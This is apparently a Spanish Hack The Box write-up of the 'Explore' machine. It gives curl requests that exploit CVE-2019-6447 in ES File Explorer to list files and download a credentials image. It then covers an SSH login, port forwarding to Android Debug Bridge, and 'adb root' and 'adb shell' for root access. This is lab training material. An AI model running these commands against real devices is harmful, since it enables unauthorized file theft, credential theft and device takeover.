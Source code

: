 ```yaml
---
title: "Explore"
date: 2022-08-28T20:58:19-05:00
description: ""
type: "post"
tags: ["htb","writeups"]
---
```

He regresado por la revancha
- puerto 2222 ssh
- puerto 42135 ES File Explorer
- puerto 42935 unknown
- puerto 59777 Bukkit

Al tener expuesto el puerto 59777 se sabe que es vulnerable la versión de ES File Explorer al CVE-2019-6447.

Podemos enviar peticiones al puerto 59777 con un comando a ejecutar por medio de json, por ejemplo:

```BASH
curl http://$TARGET:59777/ -d "{'command':listFiles}"
```

Los comandos aceptados son los siguientes:
- listFiles         
- listPics          
- listVideos        
- listAudios        
- listApps          
- listAppsSystem    
- listAppsPhone     
- listAppsSdcard    
- listAppsAll                 
- getDeviceInfo 

Listando las imagenes encontramos una llamada `creds.jpg`
```JSON
{
    {
    "name":"creds.jpg",
    "time":"4/21/21 02:38:18 AM",
    "location":"/storage/emulated/0/DCIM/creds.jpg", 
    "size":"1.14 MB (1,200,401 Bytes)"
    }
}
```
Para obtener la imagen simplemente hacemos una petición GET al path completo de la imagen.
```BASH
curl http://$TARGET:59777/storage/emulated/0/DCIM/creds.jpg -o creds.jpg
```

La imagen contiene credenciales, las cuales probamos para conectarnos por medio de SSH.

Si no se puede establecer la conexión modificar el archivo `~/.ssh/config` con lo siguiente
```
host 10.10.10.247
    HostkeyAlgorithms +ssh-rsa
    PubkeyAcceptedAlgorithms +ssh-rsa
```
Observando los puertos disponibles encontramos el puerto 5555, correspondiente al debugger en android, entonces podemos hacer un tunnel a tráves de ssh para así interactuar con la herramienta adecuada.

```BASH
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

Ya en nuestro terminal podemos conectarnos mediante adb
```BASH
adb connect <IP>
adb root # Intentamos escalar a root
adb shell
```

La flag la encontramos en el directorio `/data`

## Referencia
[Port 5555 - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge)
